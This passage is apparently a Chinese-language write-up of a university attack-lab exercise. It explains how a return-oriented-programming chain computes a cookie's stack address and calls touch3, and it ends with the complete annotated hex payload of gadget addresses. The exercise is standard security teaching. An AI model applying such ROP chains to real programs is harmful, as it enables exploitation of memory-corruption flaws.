 |     movq %rax,%rdi      |
|     movq %rsp,%rax      |
|       buf(40字节)       |

从buf到add_xy这一段实际上都是在计算cookie所在的地址.方法是计算%rsp在一个特定时刻的值与偏置量0x48的和来得到预先设计好的cookie的位置.

cookie的位置经add_xy计算后存储在%rax中返回,将其移入%rdi后调用touch3即可.

我尝试过将cookie及其尾随的8字节0置入buf中,有一个细节使得这种做法无法完成:

想要把偏置量置入%rsi寄存器中,只能在非常有限的gadget中通过下列指令完成:

```
movl %eax,%edx
movl %edx,%ecx
movl %ecx,%esi
```

这些指令全都以l为后缀,他们都有把高4字节清零的副作用,这意味着无法传递一个负数到%esi中,所以cookie若置入buf中是没法算出位置的.

最后得攻击代码:

```
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
06 1a 40 00 00 00 00 00 /* addval_190 */
c5 19 40 00 00 00 00 00 /* setval_426 */
ab 19 40 00 00 00 00 00 /* addval_219 */
48 00 00 00 00 00 00 00 /* rsp + 0x48 -> cookie address */
42 1a 40 00 00 00 00 00 /* addval_487 */
69 1a 40 00 00 00 00 00 /* getval_311 */
13 1a 40 00 00 00 00 00 /* addval_436 */
d6 19 40 00 00 00 00 00 /* add_xy */
c5 19 40 00 00 00 00 00 /* setval_426 */
fa 18 40 00 00 00 00 00 /* touch3 */
35 39 62 39 39 37 66 61 /* cookie */
00 00 00 00 00 00 00 00
/* 发现没有0a也可以 */
```

